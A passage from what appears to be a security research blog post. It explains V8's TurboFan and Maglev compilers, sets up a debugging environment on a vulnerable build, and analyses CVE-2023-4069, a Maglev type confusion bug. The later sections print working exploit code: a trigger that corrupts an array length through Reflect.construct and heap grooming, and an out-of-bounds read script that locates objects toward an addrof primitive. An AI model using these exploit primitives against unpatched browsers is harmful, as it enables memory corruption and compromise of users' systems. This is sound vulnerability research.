structure of these objects. If all objects passed to the function have
the same structure (e.g., an object with only the property x), V8
uses this assumption to optimize the function.
By marking all objects processed by hot_square with the same map,
TurboFan can speed up how obj.x is accessed and computed,
particularly by eliminating repetitive checks on the object’s
structure. This optimized path allows the multiplication (obj.x * obj.x) to be executed more efficiently.
To test this in practice, we can now invoke d8 with the
--print-opt-code flag to get the code optimized by TurboFan and then
load the previous hot_square JS code.
C:\v8_dev\v8\v8\out>x64.debug\d8.exe --allow-natives-syntax --print-opt-code
V8 version 11.5.150.16
d8> load ('square.js')
...
--- End code ---
--- Raw source ---
function hot_square(obj) {
return obj.x * obj.x;
}
for (let i=0; i < 999999; i++) {
hot_square({x:i});
}
--- Optimized code ---
optimization_id = 1
source_position = 0
kind = TURBOFAN
stack_slots = 14
compiler = turbofan
address = 000003870011AE81
Instructions (size = 576)
[Prologue]
00007FFDB81441C0 0 488d1df9ffffff REX.W leaq rbx,[rip+0xfffffff9]
00007FFDB81441C7 7 483bd9 REX.W cmpq rbx,rcx
00007FFDB81441CA a 740d jz 00007FFDB81441D9 <+0x19>
00007FFDB81441CC c ba82000000 movl rdx,0000000000000082
00007FFDB81441D1 11 41ff9500500000 call [r13+0x5000]
00007FFDB81441D8 18 cc int3l
00007FFDB81441D9 19 8b59f4 movl rbx,[rcx-0xc]
00007FFDB81441DC 1c 4903de REX.W addq rbx,r14
00007FFDB81441DF 1f f7431700000020 testl [rbx+0x17],0x20000000
00007FFDB81441E6 26 0f8594e16f27 jnz 00007FFDDF842380 (CompileLazyDeoptimizedCode) ;; near builtin entry
00007FFDB81441EC 2c 55 push rbp
00007FFDB81441ED 2d 4889e5 REX.W movq rbp,rsp
00007FFDB81441F0 30 56 push rsi
00007FFDB81441F1 31 57 push rdi
00007FFDB81441F2 32 50 push rax
00007FFDB81441F3 33 ba58000000 movl rdx,0000000000000058
00007FFDB81441F8 38 41ff9500500000 call [r13+0x5000]
00007FFDB81441FF 3f cc int3l
00007FFDB8144200 40 4883ec18 REX.W subq rsp,0x18
00007FFDB8144204 44 488975b0 REX.W movq [rbp-0x50],rsi
00007FFDB8144208 48 493b65a0 REX.W cmpq rsp,[r13-0x60] (external value (StackGuard::address_of_jslimit()))
00007FFDB814420C 4c 0f86d2000000 jna 00007FFDB81442E4 <+0x124>
[Check value is a SMI and checks map]
00007FFDB8144212 52 488b4dc8 REX.W movq rcx,[rbp-0x38]
00007FFDB8144216 56 f6c101 testb rcx,0x1
00007FFDB8144219 59 0f85b4010000 jnz 00007FFDB81443D3 <+0x213>
00007FFDB814421F 5f 81f97e841e00 cmpl rcx,0x1e847e
00007FFDB8144225 65 0f8c1e000000 jl 00007FFDB8144249 <+0x89>
...
[Divide by two to get SMI]
00007FFDB8144249 89 488bf9 REX.W movq rdi,rcx
00007FFDB814424C 8c d1ff sarl rdi, 1
[Perform Square Operation]
00007FFDB814424E 8e 4c8bc7 REX.W movq r8,rdi
00007FFDB8144251 91 440fafc7 imull r8,rdi
...
[Multiply by two to get doubled SMI]
00007FFDB8144292 d2 488bcf REX.W movq rcx,rdi
00007FFDB8144295 d5 03cf addl rcx,rdi
Inspecting the Turbofan otimized code
To gain a better understanding, I have included square brackets comments at the start of each JIT compiled code section.
The first part, starting at address 00007FFDB81441C0 is the prologue, which basically checks if the code is still sane and it will bail out if no.
Then, on the second chunk (00007FFDB8144212), we load the first (and ony) parameter into RCX and test if its least significant bit (lsb) is set to 1 via the testb instruction.
Due to performance reasons, pointers in V8 are tagged, meaning the last bit is set to 1 for any V8 pointer. On the other hand, SMIs have 0 as the last bit. This means that to avoid SMIs having the least significant bit set to 1, their values need to be doubled in memory unless they are performing an operation.
And this is exactly what’s happening here: at memory address 00007FFDB814424C, the sarl (Shift Arithmetic Right) operation is shifting the value of the SMI one bit to the right, effectively dividing it by two to return it to its original value.
Then the square calculation is performed with the imull operation on the real SMI value stored in RDI against the same value previously stored in R8.
Finally, the double-SMI value is restored into RCX by adding the halved value to itself.
We could cover many more aspects and details about how the TurboFan optimization and de-optimization process works, but that would likely take one or two additional blog posts.
This concludes our brief overview of the V8’s pipeline, which can be nicely summarized with this graph by Addy Osmani.
 Summary of the V8 Pipeline
The “Sea of Nodes” approach improves TurboFan’s ability to optimize JavaScript execution, especially when working with Ignition, V8’s interpreter. This combination aims for peak performance by first interpreting code quickly and then optimizing the parts that are used the most.
However, despite the advanced technologies behind Ignition+Turbofan, the optimization process is not without its challenges. This has led to the development of the Maglev compiler, which we will explore next.
The Maglev Compiler
In 2021, the V8 team introduced Sparkplug, a baseline Just-In-Time (JIT) compiler designed to improve performance over Ignition without the overhead of extensive optimizations that Turbofan requires.
Despite their capabilities, each of these compilers has limitations. Ignition executes bytecode but lacks the performance needed for high-demand scenarios. TurboFan, while capable of significantly optimizing performance, is slower to compile, making it unsuitable for functions that don’t run long enough to benefit from its optimizations. Moreover, the newly introduced Sparkplug offers a speed improvement over Ignition but has a low upper limit on performance enhancements due to its simplicity and single-pass compilation approach.
In December 2023 Maglev has been introduced to address the performance gap between Sparkplug and TurboFan. Maglev generates faster code than Sparkplug and compiles significantly faster than TurboFan. It does so by targeting code that doesn’t get hot enough for TurboFan’s optimizations but can still benefit from some level of optimization.
Maglev’s design incorporates several key elements. Unlike Sparkplug’s single-pass approach, Maglev uses a traditional static single-assignment (SSA) intermediate representation.
Following the adoption of SSA, Maglev’s compilation process involves two distinct phases. In the first phase, Maglev builds a graph from the previously generated SSA nodes. Subsequently, in the second phase, it optimize the Phi values to further improve the compilation.
Phi values (or phi nodes) are used in the intermediate representation (IR) of the code to manage variables that can have different values depending on the control flow path taken during execution. These nodes are essential for correctly handling control flow and variable assignments in scenarios where the program’s execution can follow multiple paths.
When there is a branching in the control flow, such as an if-else statement, phi nodes decide which value to use based on which branch was taken.
For example, consider a simple scenario where a variable x gets different values in an if-else block:
if (condition) {
x = 1;
} else {
x = 2;
}
// Use x here
Phi node example code
In the IR, a phi node would represent the value of x after the if-else block, ensuring that the correct value (either 1 or 2) is used based on the path taken.
During the prepass phase, Maglev identifies where phi nodes are needed by analyzing the control flow and variable assignments. This prepass allows Maglev to create phi nodes in a way that enables the SSA graph to be generated in a single forward pass without needing to “fix up” variables later.
Maglev is enabled by default starting in Chrome version 114 and the updated V8 pipeline as of 2023 is summarized in the following diagram.
 V8 2023 Pipeline - Source: Google Design Documentation
With a better understanding of Maglev’s role in the V8 pipeline, let’s dive into the heart of this blog post: analyzing the bug that is affecting Maglev. But first, let’s set the stage by preparing our V8 debugging environment.
Setting up the V8 Debugging Environment
To dig further into the bug details and perform a root cause analysis, we first need a working debugging environment. Let’s explore how to set up a tailored V8 environment with the vulnerable version.
The environment can be set up either on a physical box or on a development VM. I personally prefer using a physical machine as it gives better performance when compiling the extensive V8 source code. Once we have selected our target environment, we’ll need to install the latest Visual Studio 2022 Community edition. The Community edition is free and satisfies all the requirements needed to debug V8.
From the Visual Studio Installer, select these two Workloads:
- Desktop Development with C++
- Python Development
From the Individual Components window pane, select the following items:
- C++ ATL for Latest v143 Build Tools (x86 & x64)
- C++ MFC for Latest v143 Build Tools (x86 & x64)
- C++ Clang Compiler for Windows (17.0.3)
- MSBuild support for LLVM (clang-cl) toolset
- C++ CMake tools for Windows
- Git for Windows
- Windows 11 SDK (10.0.22621.0)
Next, we need to install the Windows 11 SDK Debugging Tools.
Once downloaded, run the installer file winsdksetup.exe and install
it, making sure that “Debugging Tools for Windows” is included. After
installation, you can find the debugging tools in the installation
directory at C:\Program Files (x86)\Windows Kits\10\Debuggers.
Now that all the Windows development prerequisites are installed, we are ready to install the V8 development tools.
We can create a folder such as C:\v8_dev under the root drive where
we can install all the necessary V8 dependencies and source code.
From an elevated command prompt, navigate to that folder and git clone Depot Tools.
C:\v8_dev> git clone https://chromium.googlesource.com/chromium/tools/depot_tools.git
Cloning into 'depot_tools'...
remote: Sending approximately 49.80 MiB ...
remote: Counting objects: 9, done
remote: Finding sources: 100% (9/9)
remote: Total 59597 (delta 42743), reused 59594 (delta 42743)
Receiving objects: 100% (59597/59597), 49.78 MiB | 11.15 MiB/s, done.
Resolving deltas: 100% (42743/42743), done.
Downloading Depot Tools
Depot Tools is a collection of scripts and tools designed to manage the development workflow for Chromium-related projects. These tools help in fetching source code, managing dependencies, building projects, and running tests. Some of the tools are gclient for syncing dependencies, ninja for building, and gn for project generation.
We can then add the depot tools folder at the beginning of
the PATH system variable as well as the two user variables
DEPOT_TOOLS_WIN_TOOLCHAIN and vs2022_install. We set them to
0 and the VS2022 installation location C:\Program Files\Microsoft Visual Studio\2022\Community.
We can do so by pasting the following commands in the same elevated command shell.
setx PATH "C:\v8_dev\depot_tools\;%PATH%" /M
setx vs2022_install "C:\Program Files\Microsoft Visual Studio\2022\Community"
setx DEPOT_TOOLS_WIN_TOOLCHAIN "0"
Adding the Necessary Environment Variables
Once the variables are set, we can move to the depot tools subfolder and run the gclient command, which might take a while to complete.
C:\v8_dev\depot_tools> gclient
Updating depot_tools...
Downloading CIPD client for windows-amd64 from https://chrome-infra-packages.appspot.com/client?platform=windows-amd64&version=git_revision:200dbdf0e967e81388359d3f85f095d39b35db67...
WARNING: Your metrics.cfg file was invalid or nonexistent. A new one will be created.
Usage: gclient.py <command> [options]
Meta checkout dependency manager for Git.
Commands are:
config creates a .gclient file in the current directory
...
Options:
--version show program's version number and exit
-h, --help show this help message and exit
-j JOBS, --jobs=JOBS Specify how many SCM commands can run in parallel;
defaults to 20 on this machine
-v, --verbose Produces additional output for diagnostics. Can be
used up to three times for more logging info.
--gclientfile=CONFIG_FILENAME
Specify an alternate .gclient file
--spec=SPEC create a gclient file containing the provided string.
Due to Cygwin/Python brokenness, it can't contain any
newlines.
--no-nag-max Ignored for backwards compatibility.
Running the gclient Command
The gclient command is part of Depot Tools and is used to manage and synchronize dependencies for Chromium and related projects. It fetches the source code, checks out the correct versions of dependencies, and sets up the development environment.
If no errors are encountered, we can confirm that the Python 3 depot tools installation is preferred over the default system one.
C:\v8_dev\depot_tools> where python3
C:\v8_dev\depot_tools\python3.bat
C:\Users\uf0\AppData\Local\Microsoft\WindowsApps\python3.exe
Verifying Python3 Path Order of Preference
From the v8_dev folder, we can now create a v8 subfolder and retrieve the V8 source code with the fetch command.
C:\v8_dev>mkdir v8 && cd v8
C:\v8_dev\v8> fetch v8
Updating depot_tools...
Running: 'C:\Users\uf0\AppData\Local\.vpython-root\store\python_venv-ffl9mmbr4c2o2io44cqtfhe7os\contents\Scripts\python3.exe' 'C:\v8_dev\depot_tools\gclient.py' root
Running: 'C:\Users\uf0\AppData\Local\.vpython-root\store\python_venv-ffl9mmbr4c2o2io44cqtfhe7os\contents\Scripts\python3.exe' 'C:\v8_dev\depot_tools\gclient.py' config --spec 'solutions = [
{
"name": "v8",
"url": "https://chromium.googlesource.com/v8/v8.git",
"deps_file": "DEPS",
"managed": False,
"custom_deps": {},
},
]
...
Running hooks: 100% (26/26), done.
Running: git config --add remote.origin.fetch '+refs/tags/*:refs/tags/*'
Running: git config diff.ignoreSubmodules dirty
Fetching V8 code
Having pulled V8’s source code, we are now ready to git check out the vulnerable version where CVE-2023-4069 is present and still unpatched.
According to the filed Chromium bug, the issue has been tested in the 11.5.150.16 version and tested on the 5315f073233429c5f5c2c794594499debda307bd commit. So we can git checkout to it as follows from the newly created v8 folder.
C:\v8_dev\v8> cd v8
C:\v8_dev2\v8\v8> git checkout 5315f073233429c5f5c2c794594499debda307bd
Updating files: 100% (4074/4074), done.
Previous HEAD position was 26d63123203 Revert "[heap][handles] Revise parking invariants for direct handles"
HEAD is now at 4c11841391c [heap] Incremental marking tracing improvements
Checking out V8 to the vulnerable version
Next, we need to run the gclient sync -D command in order to verify
that the source code is in a clean state, removing any files that are
not tracked by the repository and ensuring that all dependencies match
the specified commit.
C:\v8_dev\v8\v8> gclient sync -D
Updating depot_tools...
Syncing projects: 100% (29/29), done.
WARNING: 'v8\tools\protoc_wrapper' is no longer part of this client.
It is recommended that you manually remove it or use 'gclient sync -D' next time.
...
Downloading https://commondatastorage.googleapis.com/chromium-browser-clang/Win/clang-llvmorg-17-init-10134-g3da83fba-1.tar.xz .......... Done.
Running hooks: 100% (32/32), done.
Updating dependencies with gclient
We fetched all necessary dependencies listed in the DEPS file, checked out the appropriate versions of these repositories, and applied any required configurations.
Having the right vulnerable source code and dependencies up-to-date, it’s now time to compile V8. We’ll do so via the gm.py Python wrapper tool and specify the kind of architecture/build as an argument.
Since the Maglev compiler is available only in the release version, we have to specify the x64.release flag.
C:\v8_dev\v8\v8> python3 tools\dev\gm.py x64.release
# mkdir -p out\x64.release
# echo > out\x64.release\args.gn << EOF
is_component_build = false
is_debug = false
target_cpu = "x64"
v8_enable_sandbox = true
use_goma = false
v8_enable_backtrace = true
v8_enable_disassembler = true
v8_enable_object_print = true
v8_enable_verify_heap = true
dcheck_always_on = false
EOF
# gn
gen out\x64.release
Done. Made 190 targets from 103 files in 2429ms
# autoninja -C out\x64.release d8
ninja: Entering directory `out\x64.release'
[1998/1998] LINK d8.exe d8.exe.pdb
Done! - V8 compilation finished successfully.
Compiling V8
It’s now time to test our freshly compiled d8 binary. We can launch it
from inside the out\x64.release folder along with the --maglev
flag. If everything went good and well, we should be able to spawn a
11.5.150.16 d8 version as shown below.
C:\v8_dev\v8\v8\out\x64.release\d8.exe --maglev
V8 version 11.5.150.16
d8>
Great! We managed to compile and build a CVE-2023-4069 vulnerable d8 version. Let’s now dive a bit more into the bug’s root cause and exploitation.
CVE-2023-4069 Walkthrough
In October 2023, Man Yue Mo from the GitHub security team published a write-up about CVE-2023-4069 Type Confusion in V8.
In short, the root cause of the bug in the Maglev compiler relates to incomplete object initialization during object construction in V8. When an object is constructed, V8 may create a partially initialized object before setting all its properties. Maglev’s speculative optimizations can result in objects being used in this incomplete state, leading to type confusion. During the optimization process, Maglev might execute intermediate steps that use an object before an object property is set, causing the code to access an uninitialized object. This can lead to memory corruption vulnerability as we’ll see shortly.
This was the vulnerability TL;DR but let’s try now to explain the inception of the bug by starting with the related concepts.
In JavaScript, the new operator is utilized as part of its Object Oriented Programming functionality.
It is leveraged to create an instance of built-in object type. It does so by creating a new object, setting its prototype, binding this to the new object, and returning the new object (unless the constructor returns an object).
As an example of the new operator, the following code defines a constructor function Person that assigns the passed name parameter to a property called name on the created object.
function Person(name) {
this.name = name;
}
const person = new Person('uf0');
console.log(person.name); // Outputs: uf0
JS Example of the ’new’ Operator
When new Person(‘uf0’) is called, it creates a new instance of Person with name set to ‘uf0’. The console.log(person.name); statement then prints out the value of the name property.
On top of that, we also have a similar - but not quite - operator, the new.target. It is special meta-property available within constructors. It allows us to detect whether a function or constructor was called using the new operator. If called via new, new.target references the constructor function or class. If called without new, new.target returns undefined.
This can be useful to enforce that constructors are only called with new, preventing object initialization misuse.
To better clarify these notions, the code below illustrates how new.target works in combination with the new operator.
function Person(name) {
if (!new.target) {
throw new TypeError('Must use the new operator with the "new" constructor');
}
this.name = name;
}
try {
Person('uf0');
} catch (e) {
console.log(e.message);
}
person = new Person('uf0');
console.log(person.name);
Using the ‘New.Target’ Operator While Instantiating Objects With the ‘New’ Constructor
Here, Person constructor checks new.target to ensure it was called with new. If not, it throws an error. The new.target helps in making JavaScript code more robust by enforcing proper instantiation of objects.
We can test the behavior by saving the above code as new.js and load it from d8.
C:\v8_dev\v8\v8\out>x64.release\d8.exe
V8 version 11.5.150.16
d8> load('new.js')
Must use the new operator with the "new" constructor
uf0
undefined
Verifying the ’new.target’ Code
As we might predict, the first line prints an error since an exception is caught by new.target due to the object being created without the new operator. On the other hand, the second line correctly prints the parameter because the object has been instantiated with the_new_ constructor.
The last undefined string can be safely ignored, as it is printed because the script does not return any explicit value.
Moving forward with our JS language prerequisites, let’s discuss the reflect.construct
With reflect.construct we can indirectly call new.target. It has the following syntax.
Reflect.construct(target, argumentsList, newTarget)
Reflect.construct Syntax
According to the MDN docs:
“The Reflect.construct(target, argumentsList, newTarget) is semantically equivalent to: new target(...argumentsList);”
We can now combine the reflect.construct and class inheritance in the following example:
class A {
constructor() {
console.log(new.target.name);
}
}
class B extends A {
}
new A();
new B();
Reflect.construct(A, [], B);
After creating two classes, with B as an extension of A, we then invoke reflect.construct by passing A as a target and B as a newTarget. If we test the above code under d8 we get the following output.
d8> load('reflect.construct.js')
A
B
B
Testing reflect.construct
In the first two lines we get each class target name, as expected. However, the third line shows that only B is printed after calling Reflect.construct. Why so?
Well, when Reflect.construct(A, [], B) is used, it creates a new instance
of A, but it sets the constructor’s new.target to B. This means
that within A’s constructor, new.target points to B, not A.
So, even though A’s constructor is executed, new.target
makes it print B instead of A.
What is even more interesting about Reflect.construct is that it shows different behavior depending on whether the called function returns a value or not.
Let’s better grasp this concept with an example. We first create a function target that returns an array of three SMIs and call it via Reflect.construct.
function target() {return [1,2,3];}
function newtarget() {}
var x = Reflect.construct(target, [], newtarget);
%DebugPrint(x);
Reflect.construct with a Returning Value Function
Once more we load the code into d8, this time with the –allow-natives-syntax flag. This allows us to inspect details about any kind of JS object.
C:\v8_dev\v8\v8\out>x64.release\d8.exe --allow-natives-syntax
V8 version 11.5.150.16
d8> load('reflect.js')
DebugPrint: 000002B70004C139: [JSArray]
- map: 0x02b70018e299 <Map[16](PACKED_SMI_ELEMENTS)> [FastProperties]
- prototype: 0x02b70018e4dd <JSArray[0]>
- elements: 0x02b70019a805 <FixedArray[3]> [PACKED_SMI_ELEMENTS (COW)]
- length: 3
- properties: 0x02b700000219 <FixedArray[0]>
- All own properties (excluding elements): {
000002B700000E0D: [String] in ReadOnlySpace: #length: 0x02b700144a3d <AccessorInfo name= 0x02b700000e0d <String[6]: #length>, data= 0x02b700000251 <undefined>> (const accessor descriptor), location: descriptor
}
- elements: 0x02b70019a805 <FixedArray[3]> {
0: 1
1: 2
2: 3
}
Inspecting the returned value
As expected, the function returned a JSArray containing the three SMIs.
Let’s try a similar approach, but this time we call a target function that returns nothing.
function target() {}
function newtarget() {}
var x = Reflect.construct(target, [], newtarget);
%DebugPrint(x);
Reflect.construct with a Non-Returning Value Function
Now, the target function does not return any value, so we should expect an undefined return value message from the console/debugger. Let’s verify it via d8, once more.
d8> load('rc2.js')
DebugPrint: 000002100004C0F9: [JS_OBJECT_TYPE]
- map: 0x02100019a959 <Map[52](HOLEY_ELEMENTS)> [FastProperties]
- prototype: 0x02100004c08d <Object map = 000002100019A931>
- elements: 0x021000000219 <FixedArray[0]> [HOLEY_ELEMENTS]
- properties: 0x021000000219 <FixedArray[0]>
- All own properties (excluding elements): {}
000002100019A959: [Map] in OldSpace
- type: JS_OBJECT_TYPE
...
Inspecting the returned value from a non-returning function
Surprisingly, the function returns a pointer to a JS_OBJECT_TYPE instead of undefined.
In V8 when creating a new object via FastNewObject the default receiver is created as well. If the target function returns an object, the default receiver is discarded and the returned object is used; otherwise, the default receiver is returned.
Let’s clarify this concept further with a few code samples:
In V8, each JavaScript function has an initial_map, which is a Map object that determines the type and memory layout of the receiver object. As discussed previously, a map is essential for defining an object’s hidden type, memory layout, and field storage.
When FastNewObject creates a default receiver object, it attempts to use the initial_map of new.target as the map for this object.
TNode<JSObject> ConstructorBuiltinsAssembler::FastNewObject(
TNode<Context> context, TNode<JSFunction> target,
TNode<JSReceiver> new_target, Label* call_runtime) {
// Verify that the new target is a JSFunction.
Label end(this);
TNode new_target_func =
HeapObjectToJSFunctionWithPrototypeSlot(new_target, call_runtime);
GotoIf(DoesntHaveInstanceType(CAST(initial_map_or_proto), MAP_TYPE), call_runtime);
TNode initial_map = CAST(initial_map_or_proto);
TNode new_target_constructor = LoadObjectField(
initial_map, Map::kConstructorOrBackPointerOrNativeContextOffset);
GotoIf(TaggedNotEqual(target, new_target_constructor), call_runtime); //<--- check
BIND(&instantiate_map);
return AllocateJSObjectFromMap(initial_map, properties.value(), base::nullopt,
AllocationFlag::kNone, kWithSlackTracking);
}
FastNewObject function
If FastNewObject fails, it calls the runtime path JSObject::New:
MaybeHandle<JSObject> JSObject::New(Handle<JSFunction> constructor,
Handle<Object> new_target,
Handle<AllocationSite> site) {
Handle<Map> initial_map;
ASSIGN_RETURN_ON_EXCEPTION(
isolate, initial_map,
JSFunction::GetDerivedMap(isolate, constructor, new_target), JSObject);
Handle<JSObject> result = isolate->factory()->NewFastOrSlowJSObjectFromMap(
initial_map, initial_capacity, AllocationType::kYoung, site);
return result;
}
JSObject::New function
GetDerivedMap may call FastInitializeDerivedMap to create initial_map in new_target:
bool FastInitializeDerivedMap(Isolate* isolate, Handle<JSFunction> new_target,
Handle<JSFunction> constructor,
Handle<Map> constructor_initial_map) {
Handle<Map> map =
Map::CopyInitialMap(isolate, constructor_initial_map, instance_size,
in_object_properties, unused_property_fields);
map->set_new_target_is_base(false);
Handle<HeapObject> prototype(new_target->instance_prototype(), isolate);
JSFunction::SetInitialMap(isolate, new_target, map, prototype, constructor);
}
FastInitializeDerivedMap function
The initial_map here is a copy of the initial_map of target but with the prototype set to new_target’s prototype and the constructor set to target.
In other words, the purpose of FastNewObject is to check that the default receiver object is created correctly and efficiently by using the correct initial_map.
When creating objects from classes with no-op (aka do-nothing) default constructors, V8 optimizes by skipping these constructors. For instance:
class A {}
class B extends A {}
new B();
Here, calling new B() skips the default constructor A to optimize performance.
The FindNonDefaultConstructorOrConstruct compiler optimization skips no-op constructors.
The following byte code has been generated for the above code snippet, by passing the –print-bytecode flag to d8.
C:\v8_dev\v8\v8\out>x64.release\d8.exe --print-bytecode
V8 version 11.5.150.16
d8> load('bug.js')
...
[generated bytecode for function: B (0x00510019a64d <SharedFunctionInfo B>)]
Bytecode length: 38
Parameter count 1
Register count 9
Frame size 72
Bytecode age: 0
000000510019AA4A @ 0 : 89 CreateRestParameter
000000510019AA4B @ 1 : c3 Star2
000000510019AA4C @ 2 : 19 fe f9 Mov <closure>, r1
000000510019AA4F @ 5 : 5a f9 fa f3 FindNonDefaultConstructorOrConstruct r1, r0, r7-r8
000000510019AA53 @ 9 : 19 f8 f5 Mov r2, r5
000000510019AA56 @ 12 : 0b f3 Ldar r7
000000510019AA58 @ 14 : 19 f9 f7 Mov r1, r3
000000510019AA5B @ 17 : 19 fa f4 Mov r0, r6
000000510019AA5E @ 20 : 19 f2 f6 Mov r8, r4
000000510019AA61 @ 23 : 99 0c JumpIfTrue [12] (000000510019AA6D @ 35)
000000510019AA63 @ 25 : ae f6 ThrowIfNotSuperConstructor r4
000000510019AA65 @ 27 : 0b f4 Ldar r6
000000510019AA67 @ 29 : 6a f6 f5 01 00 ConstructWithSpread r4, r5-r5, [0]
000000510019AA6C @ 34 : c1 Star4
000000510019AA6D @ 35 : 0b f6 Ldar r4
000000510019AA6F @ 37 : aa Return
...
Analyzing ByteCode for Function B
From the above listing, if FindNonDefaultConstructorOrConstruct is true, it will take the JumpIfTrue statement, jumping to 000000510019AA6D, and thus return the default receiver.
To sum up, the vulnerability of CVE-2023-4069 occurs in the way Maglev handles FindNonDefaultConstructorOrConstruct.
The FindNonDefaultConstructorOrConstruct optimization skips no-op constructors. If it reaches the base constructor, BuildAllocateFastObject is used instead of FastNewObject to create the receiver object.
The problem is that BuildAllocateFastObject doesn’t verify the constructor field of new_target’s initial_map. This can lead to creating objects with uninitialized fields if new_target and target are different, causing a type confusion bug.
The only caveat here is that the VisitFindNonDefaultConstructorOrConstruct checks if new_target is a constant before calling FastObject.
void MaglevGraphBuilder::VisitFindNonDefaultConstructorOrConstruct() {
...
compiler::OptionalHeapObjectRef new_target_function =
TryGetConstant(new_target);
...
if (new_target_function && new_target_function->IsJSFunction()) {
object = BuildAllocateFastObject(
FastObject(new_target_function->AsJSFunction(), zone(),
broker()),
AllocationType::kYoung);
VisitFindNonDefaultConstructorOrConstruct Checks that new_target is a Constant
The function responsible for checking if the new_taget is a constant is aptly named TryGetConstant.
In the below code we can see how to force the new_target a constant.
class A {}
var x = Array;
class B extends A {
constructor() {
x = new.target; // caching x as a constant
super();
}
}
Reflect.construct(B, [], x);
Forcing new.target as a Constant
In the above code, we are creating a base class A and a subclass B that extends A. In B’s constructor, the new.target is cached in a global variable x.
In the last line, we are calling B as target and x as new_target. Given that we’re passing the TryGetConstant, we are hitting the vulnerable code path, leading to FastObject.
What is really happening, is that Reflect.construct creates an instance of B but sets new.target to Array, meaning that x becomes an Array type object.
Arrays have a length field that needs proper initialization. If B initializes this Array without setting length, it remains uninitialized, which might lead to memory corruption, as mentioned before.
Normally, V8 would ensure that the constructor of new.target matches the expected type to prevent this. Without this check in Maglev, the vulnerability arises.
As we’re almost done covering the necessary theory to perform an out-of-bounds (OOB) array access, we need to face one last hurdle.
When Maglev optimizes B and the optimized code runs, Reflect.construct often creates an Array with a length of 0 because free memory initially contains zeroes, which is not an ideal value for OOB access.
However, by repeatedly creating and deleting objects, and triggering garbage collection, we can manipulate the memory so the uninitialized Array ends up with arbitrary lengths that might be great for corrupting useful addresses like object pointers.
Putting together what we have learned so far, we obtain the following code that gives us a primitive OOB read through array corruption.
class A {}
var x = Array;
class B extends A {
constructor() {
x = new.target;
super();
}
}
function construct() {
var r = Reflect.construct(B, [], x);
return r;
}
for (let i = 0; i < 2000; i++) {
construct();
}
let corruptedArr = construct();
%DebugPrint(corruptedArr);
var gcSize = 0x4fe00000;
new ArrayBuffer(gcSize);
new ArrayBuffer(gcSize);
corruptedArr = construct();
%DebugPrint(corruptedArr);
Corrupting the Array After Triggering Garbage Collection
Once the code gets optimized via the for loop, we print the array via debug statement. We then trigger the garbage collector twice and print out the value of the array.
The value 0x4fe00000 (about 1.34 GB) is good for triggering garbage collection because it is large enough to allocate significant memory, filling a good chunk of the V8 heap memory of 4GB. This will force the JS engine to perform garbage collection.
Running the above code in d8 reveals the following array properties:
C:\v8_dev\v8\v8\out>x64.release\d8.exe --allow-natives-syntax --maglev
V8 version 11.5.150.16
d8> load('oob.js')
DebugPrint: 000000F300070D69: [JSArray]
- map: 0x00f30018e299 <Map[16](PACKED_SMI_ELEMENTS)> [FastProperties]
- prototype: 0x00f30018e4dd <JSArray[0]>
- elements: 0x00f300000219 <FixedArray[0]> [PACKED_SMI_ELEMENTS]
- length: 0
...
DebugPrint: 000000F300042139: [JSArray]
- map: 0x00f30018e299 <Map[16](PACKED_SMI_ELEMENTS)> [FastProperties]
- prototype: 0x00f30018e4dd <JSArray[0]>
- elements: 0x00f300000219 <FixedArray[0]> [PACKED_SMI_ELEMENTS]
- length: 463348
}
Inspecting the Corrupted Array Length
On the first run, the corruptedArr array has a length of 0, as expected after triggering the vulnerable code. However, thanks to the garbage collector shuffled memory, we can see that the new length is of 463348. This is a large value that might lead to object corruption.
As with most JIT-based type confusion bug, the next exploitation step involves getting an arbitrary controlled read/write primitive.
The idea behind the original exploit is that we can make use of the the corruptedArr out-of-bound read to get the address of a marker array, here named oobDblArr.
function searchDblArrIndex(startAddr, corruptedArr, marker1, marker2, limit) {
var startIndex = getOffset(startAddr);
var end = getOffset(limit);
for (let idx = startIndex; idx < end; idx += 1) {
if (corruptedArr[idx] == marker1 && corruptedArr[idx + 2] == marker2) {s
return idx - 3;
}
}
}
class A {}
var gcSize = 0x4fe00000;
var arrAddr = 0x42191;
var emptyAddr = 0x219;
var view = new ArrayBuffer(24);
var dblArr = new Float64Array(view);
var intView = new Uint32Array(view);
var x = Array;
class B extends A {
constructor() {
x = new.target;
super();
}
}
function construct() {
var r = Reflect.construct(B, [], x);
return r;
}
for (let i = 0; i < 2000; i++) construct();
new ArrayBuffer(gcSize);
new ArrayBuffer(gcSize);
var corruptedArr = construct();
corruptedArr = construct();
function getOffset(addr) {
return (addr - emptyAddr) / 4 - 2;
}
var oobDblArr = [0x41, 0x42, 0x51, 0x52, 1.5];
var dblIndex = searchDblArrIndex(arrAddr, corruptedArr, 0x40504000 / 2, 0x40508000 / 2, arrAddr + 0x1000);
%DebugPrint(corruptedArr);
%DebugPrint(oobDblArr);
Math.sin();
1.js - Finding the OobDblArr Array via CorruptedArr OOB Read
Here the oobDblArr array is used as a marker, that creates 0x40504000 and 0x40508000 values in memory.
The searchDblArrIndex function parses the first corruptedArr corrupted array in search for those two signatures that belongs to oobDblArr.
We can verify this piece of information with WinDbg by launching d8 from it, with similar options.
 Launching 1.js from WinDbg
We then enable a breakpoint at the d8!Builtins_MathSin function and then let the code resume execution.
0:000> bp d8!Builtins_MathSin
breakpoint 0 redefined
0:000> g
...
Breakpoint 0 hit
d8!Builtins_MathSin:
00007ff6`32560140 55 push rbp
Hitting the MathSin Breakpoint
From the console window we take note of the elements address of the corruptedArr, that is 0000019E00042159 in this case.
DebugPrint: 0000019E00042159: [JSArray]
- map: 0x019e0018e299 <Map[16](PACKED_SMI_ELEMENTS)> [FastProperties]
- prototype: 0x019e0018e4dd <JSArray[0]>
- elements: 0x019e00000219 <FixedArray[0]> [PACKED_SMI_ELEMENTS]
Inspecting corruptedArr Elements Address
We should keep in mind that, as pointed out by Man Yue Mo, due to V8
heap lack of randomization, most objects will be aligned at static
offsets from the original corrupted one.
We can now search the 40 50 40 00 pattern by starting from 0x019e00000219 until the provided length of 0x42191 plus 0x1000.
0:000> s 0x019e00000219 L?0x42191+1000 40 50 40 00
0000019e`00042175 40 50 40 00 00 00 00 00-80 50 40 00 00 00 00 00 @P@......P@.....
0000019e`000421bd 40 50 40 00 00 00 00 00-80 50 40 00 00 00 00 00 @P@......P@.....
Manually Searching for the oobDblArr Markers
With the correct object aligned in the final version of the exploit, the function will grab only the second hit, which is the one pointing to the oobDblArr elements object.
From here our strategy goes pretty much similar to other type confusion bugs: another object, oobObjArr is placed after oobDblArr.
Using our out-of-bounds (OOB) read operation on oobDblArr, we can read the memory addresses of the objects stored in oobObjArr, which allows us to obtain the address of any V8 object.
